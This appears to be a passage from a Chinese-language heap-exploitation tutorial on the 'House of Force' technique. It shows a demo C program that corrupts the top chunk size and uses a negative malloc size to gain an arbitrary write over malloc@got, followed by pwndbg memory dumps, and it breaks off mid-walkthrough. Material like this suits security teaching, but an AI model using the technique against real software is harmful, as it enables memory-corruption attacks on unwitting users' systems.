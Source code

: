 所以，如果我们想要下次在指定位置分配大小为 x 的 chunk，我们需要确保 remainder_size 不小于 x+ MINSIZE

## 示例1

减小 top chunk指针修改位于其上面（低地址）的内容

```c++
// 通过 house of force 篡改 malloc@got
int main()
{
    long *ptr,*ptr2;
    ptr=malloc(0x10);
    ptr=(long *)(((long)ptr)+24);
    *ptr=-1;        // <=== 这里把top chunk的size域改为0xffffffffffffffff
    malloc(-4120);  // <=== 减小top chunk指针
    malloc(0x10);   // <=== 分配块实现任意地址写
}
```

分配一个 0x10 大小的块：

```s
pwndbg> x/8g 0x602000
0x602000:   0x0000000000000000  0x0000000000000021 <-- ptr
0x602010:   0x0000000000000000  0x0000000000000000
0x602020:   0x0000000000000000  0x0000000000020fe1 <-- top chunk
0x602030:   0x0000000000000000  0x0000000000000000
```

之后修改 top chunk 的size域为-1：

```s
pwndbg> x/8g 0x602000
0x602000:   0x0000000000000000  0x0000000000000021 <-- ptr
0x602010:   0x0000000000000000  0x0000000000000000
0x602020:   0x0000000000000000  0xffffffffffffffff <-- top chunk
0x602030:   0x0000000000000000  0x0000000000000000
```

此时 top_chunk的位置：

```s
pwndbg> x/16g &main_arena
0x7ffff7dd1b20 <main_arena>:    0x0000000100000000  0x0000000000000000
0x7ffff7dd1b30 <main_arena+16>: 0x0000000000000000  0x0000000000000000
0x7ffff7dd1b40 <main_arena+32>: 0x0000000000000000  0x0000000000000000
0x7ffff7dd1b50 <main_arena+48>: 0x0000000000000000  0x0000000000000000
0x7ffff7dd1b60 <main_arena+64>: 0x0000000000000000  0x0000000000000000
0x7ffff7dd1b70 <main_arena+80>: 0x0000000000000000  0x0000000000602020 <-- top chunk
0x7ffff7dd1b80 <main_arena+96>: 0x0000000000000000  0x00007ffff7dd1b78
```

接下来执行 `malloc(-4120)`
程序中`malloc@got`的位置：

```s
pwndbg> x/x 0x601020
0x601020:   0x00007ffff7a91130
pwndbg> x/s 0x00007ffff7a91130
0x7ffff7a91130 <__GI___libc_malloc>:    "USH\203\354\bH\213\005\263\375\063"
pwndbg>
```
